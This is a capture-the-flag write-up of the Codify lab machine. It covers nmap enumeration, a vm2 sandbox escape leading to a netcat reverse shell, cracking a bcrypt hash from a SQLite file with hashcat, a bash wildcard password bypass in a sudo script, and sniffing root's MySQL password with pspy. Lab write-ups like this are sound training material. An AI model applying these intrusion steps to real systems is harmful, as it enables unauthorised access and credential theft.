

<br />


<br />

# Introduction:

<br />

Hello hackers! Today, we’ll solve the Codify machine, an easy challenge. We’ll start by exploiting a vulnerability in a sandboxing library to escape commands and execute remote code. Inside, we’ll find a hash in a SQLite3 database, crack it using brute force, and obtain a password to switch users. Finally, we’ll exploit a root-executable bash script to take full control of the machine.
 
<br />

# Enumeration:

<br />

As always we start with a nmap scan:

<br />

```bash
❯ nmap -p- 10.10.11.239 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-08 22:07 CET
Nmap scan report for 10.10.11.239
Host is up (0.052s latency).
Not shown: 60737 closed tcp ports (reset), 4795 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.42 seconds
```

<br />

- `Port 22` -> ssh

- `Port 80` -> http

- `Port 3000` -> http

<br />

# Web Enumeration: -> Ports 80 & 3000

<br />

When listing these ports, we see that both host the same website with a a `sandbox` that will allow us to `execute javascript` code in real time with some `limitations`:

<br />


<br />

Click in `"Try it now"` to access to the sandbox and once in the path we `test the console` a bit and we see that we can really execute javascript code:

<br />


<br />

We continue to list the website and discover a `/about` path where we see that the website uses the `vm2 sandboxing library`:

<br />



<br />

# Find Vulnerability:

<br />

Immediately performed a `google search` and discovered that this library has a `vulnerability` which allows an attacker to `bypass sandbox limitations` and execute arbitrary code on the Victim Machine:

<br />


<br />

We continue to `search` for this vulnerability until we `find a payload` to exploit it:

<br />


<br />

We copy the payload, paste it into the console and successfully `execute` a command as the `"svc"` user:

<br />


<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.239] 58142
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

<br />

Once the remote execution of commands has been verified, we proceed to establish an `R.Shell` to gain access to the Victim Machine as the `svc` user:

<br />


<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.239] 43834
bash: cannot set terminal process group (1267): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```

<br />

Once inside we `sanitize the tty` as always so that it is completely interactive and intrusion ready!!!

<br />

# Privilege Escalation: svc -> joshua

<br />

After some searching we found a `sqlite3 database` that seems quite interesting:

<br />

```bash
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

<br />

Obviously we `opened it with sqlite3` to inspect it and we discovered the following:

<br />

```bash
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

<br />

Surprise! We have what appears to be a `bcrypt Blowfish hash`, so we copy it and put it in a file to `brute force it` with hashcat using the mode `3200`, that is the bcrypt Blowfish one:

<br />

```bash
❯ cat hash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 7 5825U with Radeon Graphics, 2629/5323 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Initializing backend runtime for device #1. Please be patient...
```

<br />

After a timeout hashcat is able to crack the hash and we get the password for user `joshua`:

<br />

```bash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

<br />

Become user `joshua` with su and get the user.txt flag:

<br />

```bash
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ cd /home/joshua/
joshua@codify:~$ cat user.txt 
e7d945e7588d952e81fe138f88xxxxxx
```

<br />

# Privilege Escalation: joshua -> root

<br />

We enumerate the `SUDOERS privileges` for this user and discover that it can run a `bash script as root`:

<br />

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

<br />

## mysql-backup.sh:

<br />

Taking a quick look at the script, we see that it appears to make a `copy of the mysql` database and store it in the `backup directory`.

<br />

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

<br />

# Vulnerabilities:

<br />

There are `two potential vulnerabilities` in the script due to `poor programming practices`.

1.- The first error occurs when `comparing` two values `without using quotes`, as this can cause some bash characters to be misinterpreted and we can `bypass authentication` by entering a `"*"` as the password:

<br />


<br />

2.- And the second has to do with what is executing the script, since as we can see `every time we execute` it the `password` that is in the `/root/.creds` file is `being leaked`, so if we listen with a program like `pspy`, we can surely `capture it`.

<br />


<br />

## Password Bypass:

<br />

When we run the script it asks us for a `password`:

<br />

```bash
joshua@codify:/opt/scripts$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
```

<br />

And if we enter an `incorrect password` it does `not let us run the program`:

<br />

```bash
joshua@codify:/opt/scripts$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmation failed!
```

<br />

However, as we have seen before, `quotation marks` are not used for comparison, so if we enter a `"*"`, the program `misinterprets our input` and considers the `password correct`, allowing us to `run it without any problem`:

<br />

```bash
joshua@codify:/opt/scripts$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

<br />

## Password Capture With pspy64:

<br />

Now that we can run the entire program, we download [pspy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) and transfer it to the victim machine:

<br />

```bash
joshua@codify:/tmp/Privesc$ wget http://10.10.14.13/pspy64
--2025-01-02 12:27:09--  http://10.10.14.13/pspy64
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                        100%[=================================================================================================>]   2.96M  2.66MB/s    in 1.1s    

2025-01-02 12:27:10 (2.66 MB/s) - ‘pspy64’ saved [3104768/3104768]

joshua@codify:/tmp/Privesc$ ls -l pspy64 
-rw-rw-r-- 1 joshua joshua 3104768 Jan  2  2025 pspy64
```

<br />

Once transferred, we `run pspy` in one window and in the other we run the script `capturing the credentials` in this way:

<br />

```bash
2025/01/02 12:29:29 CMD: UID=0     PID=2610   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;
```

<br />

We make a `su root` with the new password and.... Come on! We have the `root.txt` flag!

<br />

```bash
joshua@codify:/tmp/Privesc$ su root
Password: 
root@codify:/tmp/Privesc# cd /root
root@codify:~# cat root.txt 
e2b32c3ca09277a65e1310b510xxxxxx
```

<br />

I hope you enjoyed the machine and clarified your doubts. Keep hacking!❤️❤️

<br />
